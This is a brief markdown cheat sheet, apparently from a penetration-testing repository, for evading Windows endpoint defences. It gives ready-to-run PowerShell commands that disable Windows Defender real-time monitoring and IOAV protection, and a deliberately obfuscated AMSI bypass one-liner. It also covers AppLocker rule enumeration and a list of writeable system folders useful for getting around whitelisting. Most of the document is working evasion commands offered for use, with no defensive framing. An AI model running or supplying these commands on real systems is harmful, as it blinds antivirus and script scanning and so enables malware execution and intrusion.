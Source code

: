 # Antivirus & Detections

## Windows Defender

### Check Status of Defender

- **PowerShell Commands:**
  ```powershell
  Get-MpComputerStatus
  ```

- **Firewall Status Commands:**
  ```powershell
  netsh advfirewall show domain
  netsh advfirewall show private
  netsh advfirewall show public
  ```

### Disable Real-Time Monitoring

- **PowerShell Command:**
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
  ```

- **Disable IOAV Protection:**
  ```powershell
  Set-MpPreference -DisableIOAVProtection $true
  ```

---

## AppLocker Enumeration

### With the GPO

- Registry Key Location: 
  ```
  HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2
  ```
  - Keys: `Appx`, `Dll`, `Exe`, `Msi`, and `Script`.

### List AppLocker Rules

- **PowerShell Command:**
  ```powershell
  $a = Get-ApplockerPolicy -effective
  $a.rulecollections
  ```

---

## PowerShell

### Default PowerShell Locations in a Windows System

- `C:\windows\syswow64\windowspowershell\v1.0\powershell`
- `C:\Windows\System32\WindowsPowerShell\v1.0\powershell`

### Example of AMSI Bypass

- **PowerShell Command:**
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
  ```

---

## Default Writeable Folders

- `C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys`
- `C:\Windows\System32\spool\drivers\color`
- `C:\Windows\Tasks`
- `C:\windows\tracing`
```

